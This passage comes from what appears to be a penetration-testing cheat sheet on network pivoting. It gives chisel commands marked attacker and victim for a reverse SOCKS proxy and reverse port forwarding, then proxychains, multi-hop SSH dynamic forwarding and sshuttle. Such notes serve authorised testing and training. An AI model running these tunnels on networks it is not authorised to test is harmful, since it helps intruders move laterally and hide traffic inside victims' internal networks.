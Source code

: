 ```
chisel-x64.exe client [my_ip]:8080 R:socks 
```

After that use **proxychains** with port 1080 (default).

After version 1.5.0 chisel uses socks5 proxy.

#### Chisel Port Forwarding

You need to use the **same version for client and server** of chisel.

Server side (Attacker):

```
chisel server -p 12312 --reverse
```

Client Side (Victim):

```
chisel client [my_ip]:12312 R:[port]:127.0.0.1:[port]
```

## Checklist

```
#Multi-chained SSH pivoting

ssh -D 8888 -J sshusername@network1-IP,sshusername@network2-IP sshusername@network3-IP
```

```
#Sshuttle

sshuttle -vr sshusername@currently-connected-IP network2-IP
```
